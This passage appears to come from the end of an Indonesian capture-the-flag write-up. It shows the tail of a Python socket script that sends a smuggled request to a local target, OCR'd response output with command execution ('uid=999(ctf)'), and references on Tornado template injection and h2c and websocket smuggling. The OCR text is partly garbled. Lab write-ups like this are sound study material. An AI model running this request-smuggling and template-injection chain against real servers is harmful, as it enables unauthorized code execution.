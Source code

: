 ```python
    sock.sendall(req2)
    data = sock.recv(4096)
    data = data.decode(errors='ignore')

    # Print the received data
    print(data)

    # Shutdown and close the socket
    sock.shutdown(socket.SHUT_RDWR)
    sock.close()

if __name__ == "__main__":
    main('127.0.0.1:80')
```

Notes: Sebelum jalankan code diatas, jalankan "scanning" vulnerability terlebih dahulu untuk mendapatkan `scan_id`.

Berikut adalah responsenya


[Image extracted text: <nead>
<meta
charset="UTF-8">
<meta name-"viewport"
content-"width-device-Width,
initial-scale-1.0">
<title-Scan Report</title>
<link href_"https://cdn. jsdelivr.net/npm/bootstrap@5.3.0-alphal/dist/css/bootstrap.min.css"
rel-
</head>
<body>
<div class-"container
mt-5">
<hl class-"text-center">Scan Report uid-9g9(ctf) gid-999(ctf) groups-999(ctf)
</hl>
<table class-"table table-bordered mt-3">
<thead class-"thead-dark">]


References:
- https://ajinabraham.com/blog/server-side-template-injection-in-tornado
- https://book.hacktricks.xyz/pentesting-web/h2c-smuggling
- https://www.youtube.com/watch?v=gANzRo7UHt8
- https://github.com/0ang3el/websocket-smuggle